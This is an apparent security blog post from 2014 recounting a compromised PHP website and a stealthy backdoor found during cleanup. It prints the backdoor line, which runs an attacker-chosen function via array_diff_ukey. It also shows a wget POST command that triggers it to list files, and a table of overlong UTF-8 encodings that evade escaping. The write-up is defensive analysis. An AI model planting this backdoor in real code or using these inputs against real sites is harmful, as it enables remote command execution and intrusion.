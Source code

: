 +++
title ="PHP callback function backdoor"
date ="2014-05-10"
categories = ["Security"]
tags = ["Backdoor", "PHP"]
slug = "php-callback-function-backdoor"
project_url = "https://greyhat.dk/php-callback-function-backdoor"
type = "post"
+++

I recently had an incident at a customers website where the site was
compromised. The customer went through the code and found several SQL
injections, XSS and newly added files with backdoors (basic evals in
PHP). All vulnerabilities was fixed (According to the customer) but
about a month later the site was compromised again. Unfortunately no
version control was used so we had to go through all files to help the
customer and the log had no indications of successful attempts.

In several files I found code like this

```php
    @array_diff_ukey(@array((string)$_REQUEST['list']=>1), @array((string)stripslashes($_REQUEST['list2'])=>2),$_REQUEST['var']);
```

It took me a while to fully understand what this is. This is a quite
clever backdoor and the reason why its was not detected in apaches log
is that POST was used to execute the command for compromising.

So in order to execute a command on the system all the attacker had to
  do was

```sh
    $ wget -S -O - --post-data 'var=system&list=ls' http://example.com/g.php --2014-05-10 14:23:45-- http://example.com/g.php Resolving example.com... 127.0.0.1 Connecting to example.com|127.0.0.1|:80... connected. HTTP request sent, awaiting response... HTTP/1.1 200 OK Date: Sat, 10 May 2014 12:23:45 GMT Server: Apache Connection: close Content-Type: text/html Length: unspecified [text/html] Saving to: 'STDOUT' 
    [<=> ] 0 --.-K/s
    cv.pdf
    g.php
    index.html
    index5.html
    [ <=> ] 79 --.-K/s in 0s
    2014-05-10 14:23:45 (428 KB/s) - written to stdout [79]
```


Nice directory listing :) I'm pretty sure you can find alternative ways
to use this then listing files. But since the customer did not find this
backdoor using a review it really proves a few things.

-  Always use version control on your software (Subversion, Git etc)
-  Always sanitize input
-  Hire developers who knows the current languages pitfalls, know how to
   review code.

Another thing I found was a heavy usage of the php function
mysql\_real\_escape\_string. The function does not provide any real
security since it does not handle overlong UTF-8 chars.

```sh
    ' = %27 = %c0%a7 = %e0%80%a7 = %f0%80%80%a7 
    " = %22 = %c0%a2 = %e0%80%a2 = %f0%80%80%a2 
    < = %3c = %c0%bc = %e0%80%bc = %f0%80%80%bc
    ; = %3b = %c0%bb = %e0%80%bb = %f0%80%80%bb 
    & = %26 = %c0%a6 = %e0%80%a6 = %f0%80%80%a6 
    \0= % 00 = %c0%80 = %e0%80%80 = %f0%80%80%80
```
 
